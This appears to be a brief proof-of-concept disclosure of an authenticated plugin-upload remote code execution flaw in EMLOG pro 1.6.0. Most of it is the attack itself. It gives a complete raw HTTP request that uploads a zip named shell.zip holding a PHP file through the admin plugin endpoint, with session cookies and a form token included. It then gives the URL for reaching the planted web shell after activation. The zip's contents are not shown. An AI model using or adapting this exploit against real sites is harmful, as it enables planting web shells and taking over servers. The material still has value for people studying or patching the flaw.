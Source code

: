 # EMLOG_pro_1.6.0（latest version） plugins upload rce vulnerability
### EMLOG download address：https://github.com/emlog/emlog/releases/tag/pro-1.6.0
## 1. Login as admin and upload a plugin (a zip which include a php file)
### payload 
```
POST /emlog/admin/plugin.php?action=upload_zip HTTP/1.1
Host: 192.168.111.155
Content-Length: 876
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.111.155
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOK8HOjtKZalBj6CG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.111.155/emlog/admin/plugin.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lq0s731hnlqm232itjlgpc27el; EM_AUTHCOOKIE_jT79impSwTWeimzUBIsgAmv1NoQbG2Zs=admin%7C1695536025%7C848fc865191736412177851eb6082b92
Connection: close

------WebKitFormBoundaryOK8HOjtKZalBj6CG
Content-Disposition: form-data; name="pluzip"; filename="shell.zip"
Content-Type: application/x-zip-compressed

PK
------WebKitFormBoundaryOK8HOjtKZalBj6CG
Content-Disposition: form-data; name="token"

4e1bef9d513bae43a46448cbbaee0db7d1d5f7d1
------WebKitFormBoundaryOK8HOjtKZalBj6CG--
```
## 2. Active the plugin you uploaded and get a shell!
### payload
```
http://192.168.111.155//emlog/content/plugins/shell/shell.php
```
